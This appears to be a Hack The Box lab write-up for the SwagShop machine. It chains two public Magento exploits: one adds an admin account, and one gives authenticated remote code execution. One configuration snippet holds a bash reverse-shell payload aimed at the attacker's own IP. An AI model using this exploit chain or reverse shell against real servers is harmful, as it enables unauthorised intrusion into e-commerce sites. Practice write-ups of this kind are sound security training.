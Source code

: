 # 10 - HTTP


# Initial response
![](vx_images/5936794648650.png)


# /etc/hosts

```bash
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot


10.10.10.140 swagshop.htb

::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
```


# swagshop.htb

![](vx_images/3995260797407.png)

Right off the bat we see Magento. It is an open source ecommerce CMS written in php. The server seems to be running an outdated version of it from 2014 as we can see it at the bottom of the page. Index.php can be misleading because it is a directory rather than a php file.

# Magento


![](vx_images/2307679143199.png)

There is a ton of vulnerabilities related to Magento. There are actually two exploits we have to run to get code execution. The first one is `Magento eCommerce - Remote Code Execution`. Rather than executing arbitrary code, the exploit does only one thing, that is; adding an admin user to the database. Once we are done with adding a user, using`Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution`, finally we can execute arbitrary code.

# Magento eCommerce - Remote Code Execution
```py
target = "http://swagshop.htb/"
target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"
```

A couple of lines has to change in each for the exploits to work.

# Execute
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/swagshop]
└──╼ $ python2 37977.py 
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```


Credentials for me:

* forme:forme


# Admin Panel

![](vx_images/3330132444914.png)



If you pay attention to the bottom of the screen, you can see exact version information and that is `Magento ver. 1.9.0.0`. I mistakenly cut it out from my screenshot. Before we start poking around the website, let's prepare our rce payload because we know that it is an outdated software, no need to hunt misconfigurations or something.




# Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution


```bash
# 37811.py
target = 'http://swagshop.htb/index.php/admin/'
arg = 'bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"'
username = 'forme'
password = 'forme'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
#br.form.new_control('text', 'login[username]', {'value': username})  # comment out this line
```



```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/swagshop]
└──╼ $ python2 37811.py 
```

# Shell
![](vx_images/742061200964.png)
